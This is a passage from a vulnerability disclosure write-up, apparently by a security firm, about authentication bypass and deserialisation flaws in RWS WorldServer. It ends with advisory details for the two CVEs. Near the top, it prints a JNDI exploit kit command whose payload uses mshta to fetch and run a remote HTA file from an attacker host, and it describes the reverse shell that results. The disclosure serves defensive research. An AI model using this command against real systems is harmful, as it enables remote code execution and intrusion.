 We spin up the LDAP server:

```
java -jar JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar -C 'mshta http://10.0.0.131:8080/0iuSimsjJ1Z2451.hta'
```

And send our request in Burp, swapping the xsd : anyType for xsd : string for both the jndiName and value types:

![36](https://www.triskelelabs.com/hs-fs/hubfs/36.png?width=1009&height=744&name=36.png)

We confirm we receive a successful lookup to our LDAP server and our payload is requested and served correctly:

![37](https://www.triskelelabs.com/hs-fs/hubfs/37.png?width=960&height=111&name=37.png)

Resulting in a reverse shell:

![38](https://www.triskelelabs.com/hs-fs/hubfs/38.png?width=843&height=125&name=38.png)

###

### **Final thoughts**

This software, while not extremely widespread, seems to be in use, or has been in use recently, at several major companies, including some of the biggest companies in the world.

It was clear that a thorough security review was never undertaken by the vendor, nor by the companies exposing it on their external perimeter.

Given the amount of recent high-profile intrusions via trivial bugs in 3rd party software, including VPN appliances and load balancers, file transfer appliances, MDM products and more, it is imperative companies perform their due diligence on the software they expose publicly.

Threat actors have cottoned on that 3rd party software seems to be an easy win if they invest the time and effort to get their hands on the software and spend some time looking for weaknesses and as such the threat model has shifted to ensure that you not only stay on top of patching, but perform code reviews and security testing of everything that is exposed.

### **Vulnerability Details**

```
CVE-2022-34267:

Product: WorldServer
Affected Versions: 11.7.2.243 and earlier versions
Fixed Version: 11.7.3
Vulnerability Type: Authentication Bypass
Security Risk: Critical
Vendor URL: <https://www.rws.com/localization/products/additional-solutions/>
Vendor Status: fixed version released
Advisory URL: <https://www.triskelelabs.com/vulnerabilities-in-rws-worldserver>
Advisory Status: published
CVE: CVE-2022-34267
CVE URL: <https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-34267>

CVE-2022-34268:

Product: WorldServer
Affected Versions: 11.7.2.243 and earlier versions
Fixed Version: 11.7.3
Vulnerability Type: Insecure Deserialisation
Security Risk: Critical
Vendor URL: <https://www.rws.com/localization/products/additional-solutions/>
Vendor Status: fixed version released
Advisory URL: <https://www.triskelelabs.com/vulnerabilities-in-rws-worldserver>
Advisory Status: published
```